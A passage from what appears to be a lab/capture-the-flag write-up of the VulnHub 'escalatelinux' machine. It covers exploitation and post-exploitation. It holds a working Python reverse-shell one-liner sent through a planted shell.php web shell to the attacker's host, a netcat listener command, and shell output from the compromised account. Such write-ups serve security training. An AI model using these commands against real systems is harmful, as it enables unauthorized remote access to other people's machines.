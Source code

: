 ## Phase #2: Exploitation
1\. We set up a `netcat` listener and invoke a Python reverse shell:  
```
nc -nlvp 9999
http://192.168.92.173/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.92.163",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_escalatelinux/screenshot01.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_escalatelinux/screenshot02.png.webp)  

## Phase #2.5: Post Exploitation
```
user6@osboxes> id
uid=1005(user6) gid=1005(user6) groups=1005(user6)
user6@osboxes>  
user6@osboxes> uname
Linux osboxes 4.15.0-45-generic #48-Ubuntu SMP Tue Jan 29 16:28:13 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
user6@osboxes>  
user6@osboxes> ifconfig
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
       inet 192.168.92.173  netmask 255.255.255.0  broadcast 192.168.92.255
       inet6 fe80::2e48:398c:348e:b9c9  prefixlen 64  scopeid 0x20<link>
       ether 00:0c:29:a6:a7:b9  txqueuelen 1000  (Ethernet)
       RX packets 266778  bytes 38129187 (38.1 MB)
       RX errors 0  dropped 0  overruns 0  frame 0
       TX packets 263355  bytes 76831868 (76.8 MB)
       TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```